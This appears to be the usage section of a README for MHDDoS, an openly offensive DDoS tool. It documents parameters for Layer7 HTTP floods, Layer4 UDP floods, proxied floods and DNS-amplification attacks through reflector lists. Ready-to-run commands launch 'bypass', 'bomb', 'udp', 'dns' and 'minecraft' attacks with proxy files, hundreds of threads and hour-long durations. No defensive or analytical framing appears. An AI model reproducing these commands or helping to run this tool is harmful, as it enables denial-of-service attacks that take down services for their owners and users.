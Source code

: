 ## Parameters
* Layer7:
   > python3 start.py <1=method> <2=url> <3=socks_type> <4=threads> <5=proxylist> <6=rpc> <7=duration> <8=debug=optional>
  - 1: Method (type of attack)
  - 2: Target URL or IP Address
  - 3: Proxy Version ([Proxy Usage](https://github.com/MHProDev/MHDDoS/wiki/Proxy-Support-!))
  - 5: Proxy File ([Proxy File Format](https://github.com/MHProDev/MHDDoS/wiki/Proxy-Files))
  - 4: Number of threads to use ([Multi Threading](https://github.com/MHProDev/MHDDoS/wiki/Multithreading))
  - 5: RPC (Requests pre connection)
  - 6: Duration (Time to finish attack in seconds)
  - 7: Debug Mode (Optional)

* Layer4 Noraml:
  > python3 start.py <1=method> <2=ip:port> <3=threads> <4=duration> <5=debug=optional>
  - 1: Method (type of attack)
  - 2: Target URL or IP Address
  - 3: Number of threads to use ([Multi Threading](https://github.com/MHProDev/MHDDoS/wiki/Multithreading))
  - 4: Duration (Time to finish attack in seconds)
  - 5: Debug Mode (Optional - [What is debug mode](https://github.com/MHProDev/MHDDoS/wiki/what-is-debug-mode))

* Layer4 Proxied:
  > python3 start.py <1=method> <2=ip:port> <3=threads> <4=duration> <5=socks_type> <6=proxylist> <7=debug=optional>
  - 1: Method (type of attack)
  - 2: Target URL or IP Address
  - 3: Number of threads to use ([Multi Threading](https://github.com/MHProDev/MHDDoS/wiki/Multithreading))
  - 4: Duration (Time to finish attack in seconds)
  - 5: Proxy Version ([Proxy Usage](https://github.com/MHProDev/MHDDoS/wiki/Proxy-Support-!))
  - 6: Proxy File ([Proxy File Format](https://github.com/MHProDev/MHDDoS/wiki/Proxy-Files))
  - 7: Debug Mode (Optional)

* Layer4 Amplification:
  > python3 MHDDoS/start.py <1=method> <2=ip:port> <3=threads> <4=duration> <5=refelector file> <6=debug=optional>
  - 1: Method (type of attack)
  - 2: Target URL or IP Address
  - 3: Number of threads to use ([Multi Threading](https://github.com/MHProDev/MHDDoS/wiki/Multithreading))
  - 4: Duration (Time to finish attack in seconds)
  - 5: Reflectors File ([Reflectors File](https://github.com/MHProDev/MHDDoS/wiki/Amplification-ddos-attack))
  - 6: Debug Mode (Optional)


## Examples
* Layer7 (Website):
```shell script
# Running bypass attack from 101 threads, 
# with socks 5, 100 requests per proxy (connection), for 3600 seconds  
python start.py bypass https://example.com 5 101 socks5.txt 100 3600
# Running bomb attack from 50 threads (be careful must be < 300)
# with all proxies (0), 100 requests per proxy (connection), for 3600 seconds
python start.py bomb https://example.com 0 50 proxy.txt 100 3600
```

* Layer4 (Server/Home):
```shell script
# Running udp attack from 1 threads, for 3600 seconds  
python start.py udp 1.1.1.1:53 1 3600
# Running dns attack from 100 threads, for 3600 seconds  
# with reflector servers from dns.txt, for 3600 seconds  
python start.py dns 1.1.1.1:53 100 3600 dns.txt
# Running minecraft attack from 1000 threads
# with socks 5, for 3600 seconds  
python start.py minecraft 1.1.1.1:53 1000 3600 5 socks5.txt
```

* Debug Mode (Log Attack status):
```shell script
python start.py bypass https://example.com 5 1000 socks5.txt 100 100 true
python start.py udp 1.1.1.1:53 1 100 true
python start.py dns 1.1.1.1:53 1 100 dns.txt true
python start.py minecraft 1.1.1.1:53 1 100 5 socks5.txt true
```

* Tools/Help:
```shell script
python start.py tools
python start.py help
```